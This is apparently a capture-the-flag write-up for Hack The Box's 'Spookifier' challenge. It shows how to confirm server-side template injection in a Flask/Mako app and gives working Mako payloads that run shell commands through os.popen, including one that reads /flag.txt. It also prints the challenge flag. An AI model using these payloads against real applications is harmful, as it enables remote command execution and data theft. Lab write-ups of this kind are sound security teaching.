 # Spookifier

- **Category:** Web
- **Points:** 0
- **Difficulty:** Very Easy

[Spookifier](https://app.hackthebox.com/challenges/Spookifier)

## Description

There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

## Attachments

.zip file containing the following:

```bash
$ tree
.
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── __pycache__
│   │   │   └── main.cpython-313.pyc
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── index.css
│   │   │   │   └── nes.css
│   │   │   └── images
│   │   │       └── vamp.png
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
└── flag.txt

10 directories, 13 files
```

## Solution

The challenge is a web application that generates a spooky name for you. The application is written in Python and uses Flask as the web framework. The application is running in a Docker container.
Let's test if the application is vulnerable to template injection. We can do this by sending a request to the application with the following payload:

> Write it in the name field and click on the "Spookify" button.

```python
${7*7}
```

> The application is vulnerable to template injection ! It returns 49.

From the source code, we can see that the application is using the `Mako` template engine. The `Mako` template engine is vulnerable to template injection. 
We can found examples [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#mako)

```python
import os
x=os.popen('id').read()
${x}
```

> Now, let's try to read the flag file. We can do this by sending a request to the application with the following payload:

```python
${self.module.cache.util.os.popen("cat /flag.txt").read()}
```

## Flag

`HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}`

